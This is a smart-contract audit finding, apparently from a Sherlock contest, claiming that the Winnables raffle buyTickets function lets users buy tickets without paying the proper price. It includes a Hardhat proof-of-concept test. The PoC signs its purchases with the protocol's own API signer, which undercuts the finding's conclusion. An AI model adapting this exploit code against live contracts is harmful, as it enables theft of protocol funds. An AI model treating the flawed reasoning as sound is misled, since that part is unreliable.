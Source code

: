 Main Lava Chimpanzee

High

# Able to buy raffle tickets cheaper due to missing validations causing protocol to lose funds

## Summary
Users able to buy tickets at ridiculous price without paying the accurate amount
## Vulnerability Detail
In `WinnablesTicketManager.sol::buyTickets`, there is no validation on ticketCount or the price per ticketCount is the same as ether sent. 
```solidity
    function buyTickets(
        uint256 raffleId,
        uint16 ticketCount,
        uint256 blockNumber, 
        bytes calldata signature
    ) external payable {
```
## Impact
Buyers can purchase tickets at significant discounts, leading to potential reward theft and profit.
## Code Snippet
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/e8b0603f6a155c7505dacc77194ae6789d0dbe7a/public-contracts/contracts/WinnablesTicketManager.sol#L182

```solidity
   // Replace in TicketManager.js
    // it('Should be able to purchase tickets', async () => {
      it('PoC: Exploit buying raffles cheaper', async () => {
        await helpers.time.increase(60);
          const buyer = await getWalletWithEthers();
          const currentBlock = await ethers.provider.getBlockNumber();
          const sig = await api.signMessage(ethers.utils.arrayify(
            ethers.utils.solidityKeccak256(['address', 'uint256', 'uint256', 'uint16', 'uint256', 'uint256'], [
              buyer.address,
              0,
              1,
              50,
              currentBlock + 10,
              1
            ])
          ));
          const sig2 = await api.signMessage(ethers.utils.arrayify(
            ethers.utils.solidityKeccak256(['address', 'uint256', 'uint256', 'uint16', 'uint256', 'uint256'], [
              buyer.address,
              1,
              1,
              10,
              currentBlock + 10,
              1
            ])
          ));
          await (await manager.connect(buyer).buyTickets(1, 50, currentBlock + 10, sig, { value: 1 })).wait();
          buyers.push(buyer);
          await (await manager.connect(buyer).buyTickets(1, 10, currentBlock + 10, sig2,{ value: 1 })).wait();
          const { totalSpent, totalPurchased, withdrawn } = await manager.getParticipation(1, buyer.address);
          console.log(totalSpent, totalPurchased, withdrawn);
          expect(totalSpent).to.eq(2);
          expect(totalPurchased).to.eq(60); // Able to purchase tickets for 2 Wei
          expect(withdrawn).to.eq(false);
      });
 ```
## Tool used

Manual Review

## Recommendation
Ensure that the ticket quantity and price is checked with appropriate ether sent.